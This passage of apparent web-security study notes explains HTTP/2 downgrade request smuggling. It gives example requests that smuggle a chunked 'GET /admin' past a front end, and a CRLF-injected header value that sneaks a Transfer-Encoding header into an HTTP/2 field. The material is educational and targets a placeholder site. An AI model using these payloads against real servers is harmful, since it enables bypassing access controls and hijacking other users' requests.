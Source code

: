 The `Transfer-Encoding: chunked` header is incompatible with HTTP/2, so it is often stripped or blocked. However, if it is not properly stripped, in the downgraded request it could have this header and make the backend process it. 

**Front-end (HTTP/2)**

| :method | POST |
| --- | --- |
| :path | /example |
| :authority | vulnerable-website.com |
| content-type | application/x-www-form-urlencoded |
| transfer-encoding | chunked |
| 0 | |
|GET /admin HTTP/1.1 | |
|Host: vulnerable-website.com | |
|Foo: bar |  |

**Back-end (HTTP/1)**

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded  
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

## CRLF injection

Websites may implement additional checks to validate the content length and stripp the `transfer-encoding` headers before the downgrading. However, since HTTP/2 uses a binary format, there are ways to bypass this restriction. 

In HTTP/1, a full `\r\n` (CRLF) sequence indicates the end of the header. On the other hand, as HTTP/2 messages are binary rather than text-based, the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters. This means that `\r\n` no longer has any special significance within a header value and, therefore, can be included **inside** the value itself without causing the header to be split:

For example, this header in HTTP/2 has no sense, 

| foo | bar\r\nTransfer-Encoding: chunked |
| --- | --- |
